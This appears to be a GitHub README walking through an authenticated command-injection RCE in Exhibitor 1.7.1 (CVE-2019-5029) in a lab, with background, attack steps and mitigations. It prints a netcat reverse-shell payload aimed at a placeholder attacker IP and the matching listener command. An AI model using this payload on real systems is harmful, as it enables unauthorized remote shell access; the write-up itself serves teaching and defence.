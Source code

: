 # Exhibitor v1.7.1 – Authenticated Remote Code Execution (Exploit-DB 48654)

> ⚠️ **Disclaimer**  
This repository is intended strictly for educational and research purposes.  
All demonstrations were performed in a controlled lab environment.  
Unauthorized testing or exploitation of systems without explicit permission is illegal and unethical. The author is not responsible for any misuse of this information.

---

## 📌 What Is Exhibitor?

**Exhibitor** is a Java-based supervisor system used to manage Apache ZooKeeper nodes. It is commonly used for service discovery and configuration in distributed environments. Exhibitor provides a web-based interface to control and monitor ZooKeeper instances.

---

## 🚨 About the Vulnerability

A critical authenticated **Remote Code Execution (RCE)** vulnerability exists in **Exhibitor v1.7.1 and below**. This vulnerability is triggered when malicious OS commands are injected into the `java.env script` field of the web UI.

Once the configuration is saved, the command is executed under the context of the Java process running the application.

- **CVE ID**: CVE-2019-5029  
- **Affected Application**: Exhibitor <= 1.7.1  
- **Vulnerability Type**: Authenticated Remote Code Execution  
- **Exploit Type**: Command Injection via Web Interface  
- **Exploit Availability**: [Exploit-DB 48654](https://www.exploit-db.com/exploits/48654)

---

## ⚙️ Lab Setup

- **Target URL**: `http://exhibitor.vlab`  
- **Exhibitor Version**: 1.7.1  
- **Authentication**: Required  
- **Listener**: Netcat on port `3333`  
- **Payload Used**: 

```bash
$(/bin/nc -e /bin/sh <ATTACKER-IP> <PORT> &)
```

> 🔧 Replace `<ATTACKER-IP>` with your IP where Netcat is listening.
> 🔧 Replace `<PORT>` with your port where Netcat is listening.

---

## 🚀 Attack Steps

1. **Log into the Exhibitor Web Interface**
   ![Login Page](./img/dashboard.png)

2. **Navigate to Config -> "java.env script" Field and Inject Reverse Shell Payload and Save Configuration**
   ![Payload Injection](./img/payload.png)

3. **Start Netcat Listener and Wait for Shell**
   ```bash
   nc -nvlp <PORT>
   ```
   ![Reverse Shell Received](./img/RCE.png)

---

## 🧠 Vulnerability Insights

The `java.env script` input field is intended to pass environment variables, but it does not properly sanitize special characters or command syntax. This allows a crafted payload like `$(...)` to be executed directly in the shell.

---

## 🔐 Mitigation

- Upgrade to the latest version of Exhibitor.
- Disable access to the configuration interface from public networks.
- Enforce strong authentication and access control policies.
- Monitor configuration changes and log shell execution anomalies.

---

## 📃 References

- [Exploit-DB Entry](https://www.exploit-db.com/exploits/48654)  
- [Pentest-Tools Analysis](https://pentest-tools.com/vulnerabilities-exploits/exhibitor-109-171-rce-vulnerability_5035)  
- [Original GitHub PoC](https://github.com/thehunt1s0n/Exihibitor-RCE)

---

## 📝 Medium Blog

Check out the full breakdown and narrative on my Medium blog:  
👉 **[Read the blog](https://medium.com/@cyberquestor)**
